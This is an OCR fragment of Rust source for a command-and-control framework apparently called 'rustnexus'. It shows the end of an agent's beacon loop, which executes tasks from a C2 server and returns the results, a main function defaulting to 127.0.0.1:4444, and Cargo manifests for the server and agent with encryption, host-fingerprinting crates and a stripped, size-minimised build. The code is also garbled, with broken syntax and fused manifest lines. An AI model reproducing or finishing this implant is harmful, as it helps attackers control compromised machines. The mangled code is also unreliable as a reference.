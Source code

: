 ```rust
                        let result = self.handle_task(&response.content);
                        self.send_task_result(&result);
                    },
                    _} else {
                println!("Failed to communicate with C2 server. Retrying in 60 seconds...");
            }
            
            // Sleep before next heartbeat
            thread::sleep(Duration::from_secs(60));
        }
    }
}

fn main() {
    let args: Vec<String> = env::args().collect();
    let server_addr = if args.len() > 1 {
        &args[1]
        "127.0.0.1:4444"
    };
    
    let mut agent = Agent::new(server_addr);
    agent.run();
}

// Server
[package]
name = "rustnexus-server"
version = "0.1.0"
edition = "2021"

[dependencies]
serde = { version = "1.0", features = ["derive"] }
serde_json = "1.0"
tokio = { version = "1.25", features = ["full"] }
uuid = { version = "1.3", features = ["v4", "serde"] }
aes-gcm = "0.10"
rand = "0.8"
base64 = "0.21"

// Cargo.toml for Agent
[package]
name = "rustnexus-agent"
version = "0.1. "2021"

[dependencies]
serde = { version = "1.0", features = ["derive"] }
serde_json = "1.0"
uuid = { version = "1.3", features = ["v4", "serde"] }
aes-gcm = "0.10"
rand = "0.8"
base64 = "0.21"
hostname = "0.3"
local-ip-address = "0.5"

[profile.release]
opt-level = "z"     # Optimize for size
lto = true          # Link-time optimization
codegen-units = 1   # Maximize size# Abort on panic
strip = true        # Strip symbols
```
